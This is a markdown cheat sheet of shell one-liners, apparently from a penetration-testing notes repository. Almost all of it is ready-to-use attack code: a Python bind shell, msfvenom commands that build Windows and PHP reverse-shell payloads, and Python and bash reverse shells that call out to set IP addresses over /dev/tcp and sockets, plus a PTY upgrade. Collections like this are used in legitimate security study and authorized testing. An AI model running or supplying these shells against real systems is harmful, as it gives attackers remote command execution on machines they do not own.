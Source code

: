 <p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/exploit_shells.md">Top of Page</a> |
  <a href="/CheatSheets/exploit_shells.md#bottom-of-page">Bottom of Page</a>
</p>

# Cheatsheets - Shells
## Table of Contents
* [Bind Shells](#bind-shells)
  * [Python](#python-bind-shell)
* [Reverse Shells](#reverse-shells)
  * [Msfvenom](#msfvenom-reverse-shells)
  * [Python](#python-reverse-shells) 
  * [BASH](#bash-reverse-shells) 
* [Upgrade to a PTY Shell](#upgrade-to-a-pty-shell)
  * [Python PTY Shell](#python-pty-shell) 

## Bind Shells
#### Python Bind Shell
```python
python -c 'import socket,os,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(("0.0.0.0",443));s.listen(5);c,a=s.accept();os.dup2(c.fileno(),0);os.dup2(c.fileno(),1);os.dup2(c.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'
```

## Reverse Shells
#### Msfvenom Reverse Shells
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f exe -o shell.exe
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f asp -o shell.asp
msfvenom -p php/reverse_php LHOST=$LHOST LPORT=$LPORT -f raw -o shell.php
```

#### Python Reverse Shells
```python
export RHOST="10.10.10.10"; export RPORT=443; python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

#### Bash Reverse Shells
```bash
bash -i >& /dev/tcp/10.0.0.1/443 0>&1
```

## Upgrade to a PTY Shell
#### Python PTY Shell
```bash
echo "import pty; pty.spawn('/bin/bash')" > /tmp/shell.py
python /tmp/shell.py
```

<p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/exploit_shells.md">Top of Page</a> |
  <a href="/CheatSheets/exploit_shells.md#bottom-of-page">Bottom of Page</a>
</p>

## Bottom of Page
